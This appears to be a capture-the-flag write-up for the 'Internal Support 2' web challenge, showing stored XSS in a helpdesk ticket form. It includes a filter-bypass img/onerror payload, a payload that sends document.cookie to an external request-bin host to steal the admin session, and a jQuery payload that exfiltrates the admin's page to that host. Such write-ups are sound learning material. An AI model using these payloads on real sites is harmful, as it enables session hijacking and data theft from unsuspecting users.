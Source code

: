## Internal Support 2 (100 points)
```
Description:

Votre chance de débutant a des limites...
La sécurité a été renforcée suite à la découverte de failles dans la précédente version !

Avec une posture d’attaquant, votre but est de parvenir à vous connecter en tant qu'administrateur.
Malheureusement pour vous, le mot de passe est bien trop robuste, vous devez trouver un autre moyen.

Accès à l'épreuve:
URL: http://internalsupport22.chall.malicecyber.com/
```

Same that **Inernal Support 1**

On the website, there are a basic login and registration form, we create an account with a random mail and password and we are redirected to support requests page

We can create a ticket with a title, a category and a message

We are going to try an XSS injection

With the ticket's message: `<script>alert("xss")</script>`, the message `Malicious code detected !` is showed, we must try an other way to execute script

There is many way to bapass XSS filter: https://github.com/payloadbox/xss-payload-list

With the ticket's message: `<img src=1 href=1 onerror="javascript:alert("xss")"></img>`, no malicious code are detected and a popup appear, we have our XSS injections !

We are using https://requestbin.com/r to steal the cookies:

Then, with the message: `<img src=1 href=1 onerror="document.location='https://enb0zp0jqsd3u.x.pipedream.net/'+document.cookie;"></img>`, we get two requests, our with our cookie and another, with the administrator cookie

On the website we change our cookie with that of the administrator and we are loged as administrator

But there is the message `You IP address changed since last login. Please logout (go to /logout/) and login again.`, too bad

We have to use another technique, in the previous one the flag was written in the home page, so we are going to retrieve it from the victim's browser with de message:


```html
<img src=1 onerror='$.ajax({url:"/",type:"GET",success:function(e){$.ajax({type:"POST",url:"https://enumx07eez4ab.x.pipedream.net/",data:{foo:btoa(e)}})}});'></img>
```

And we can read the same TODOLIST, but it say the flag is not here...

```
TODOLIST

- Régler le problème de kernel panic sur les serveurs
- Trouver une solution pour la XSS sur le système de helpdesk
- Cacher le flag "Il n'y a aucun flag ici dans cette version !" un peu mieux
```
